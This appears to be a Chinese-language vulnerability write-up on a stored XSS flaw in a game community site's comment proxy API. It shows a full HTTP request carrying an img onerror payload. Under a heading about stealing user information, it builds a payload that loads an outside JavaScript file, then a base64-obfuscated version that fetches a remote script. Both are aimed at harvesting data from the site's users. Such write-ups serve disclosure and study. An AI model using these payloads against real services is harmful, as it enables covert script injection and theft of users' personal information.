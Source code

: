 ![comment](./images/comment.png)

        POST /w/v1/comment/proxy HTTP/2
        Host: sowellwell.com
        Cookie: xxx
        Content-Length: 995
        Identifier: jssdk_pbRJTpNazMAEeEM2
        Accept: application/json, text/plain, */*
        Content-Type: application/json;charset=UTF-8
        Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
        Sec-Ch-Ua-Mobile: ?0

        {"path":"/message/apps/uu/server/create_message","method":"POST","params":{"uid":"140250100348","category":"64e345d09f08bdd6f2385d78","category_name":"64e345d09f08bdd6f2385d78","content":"getinfo2<img src=x onerror=alert(document.domain)>\n","extra":"{\"device_name\":\"web\",\"platform\":\"web\",\"posts\":{\"gid\":\"596dd2b6e3a8b2614a13b413\",\"coid\":\"596dd2b6e3a8b2614a13b413\"}}","user_info":{"game_uid":"140250100348","name":"笠泽九斤翅子树","avatar":"https://uum.fp.ps.netease.com/file/5d3fe7616f04942682c67a4clvtOFQXb02","user_type":1,"extra":"{\"user_title\":{},\"level_info\":{\"level\":2,\"cur_exp\":60,\"battery\":3,\"total_exp\":250}}"},"device":{"device_id":"jssdk_pbRJTpNazMAEeEM2"}},"id":"64e345d09f08bdd6f2385d78","server_type":1}


#### 窃取用户信息
既然存在XSS，那么可深入探究一下能够造成多大的影响。由于cookie设置了httpOnly，所以会话劫持无法利用。但是将脚本嵌入到Web页面，在用户的浏览器或者Webview中执行。首先想到的就是收集用户信息。
1. xss payload构造
    
    上一步我们实现了xss弹窗，接下来可以直接嵌入js脚本，实现更复杂的利用。由于平台对script标签进行过滤，所以我们通过img标签的onerror来进行嵌入。payload如下：

        <img src=x onerror=eval("var script=document.createElement('script');script.src='https://my.domain.com/xss.js';document.getElementsByTagName('body')[0].appendChild(script);")>

    将eval中的字符串用base64进行编码，并且再用atob进行解码，得到最终payload：

        <img src=x onerror=eval(atob('dmFyIHNjcmlwdD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtzY3JpcHQuc3JjPSdodHRwczovL3VyY2hpbi5ub3Nkbi4xMjcubmV0L3lzJTJGNTkyYjUxNGQyYmRkNGJmMDhiZmI1YmRiNzQ1ZGY3Y2MnO2RvY3VtZW50LmdldEVsZW1lbnRzQnlUYWdOYW1lKCdib2R5JylbMF0uYXBwZW5kQ2hpbGQoc2NyaXB0KTs='))>
